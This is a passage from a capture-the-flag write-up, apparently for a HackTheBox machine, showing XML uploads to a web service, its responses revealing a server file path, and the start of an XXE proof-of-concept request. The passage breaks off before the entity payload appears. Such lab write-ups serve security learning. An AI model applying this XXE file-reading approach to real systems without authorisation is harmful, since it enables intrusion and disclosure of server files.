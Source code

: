     
    
    <entry>
    <Author>0xdf</Author>
    <Subject>Testing</Subject>
    <Content>This is a test</Content>
    </entry>
    

And get this response:

    
    
    HTTP/1.1 200 OK
    Server: gunicorn/19.7.1
    Date: Mon, 04 Jun 2018 19:17:00 GMT
    Connection: close
    Content-Type: text/html; charset=utf-8
    Content-Length: 163
    
     PROCESSED BLOGPOST:
      Author: 0xdf
     Subject: Testing
     Content: This is a test
     URL for later reference: /uploads/0xdf.xml
     File path: /home/roosa/deploy/src
    

Further more, the file is where they say it is:

    
    
    root@kali# curl http://10.10.10.91:5000/uploads/0xdf.xml
    <item>
    <Author>0xdf</Author>
    <Subject>Testing</Subject>
    <Content>This is a test</Content>
    </item>
    

### XXE POC

With that understanding of how to interact with the site, I’ll start looking
for an XXE attack. Since the xml is displayed back to me, I can use a direct
method, reading a file into an entity, and then calling it:

    
    
    POST /upload HTTP/1.1
    Host: 10.10.10.91:5000
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Referer: http://10.10.10.91:5000/upload
    Content-Type: multipart/form-data; boundary=---------------------------1864243787215350191713873567
    Content-Length: 465
    Connection: close
    Upgrade-Insecure-Requests: 1
    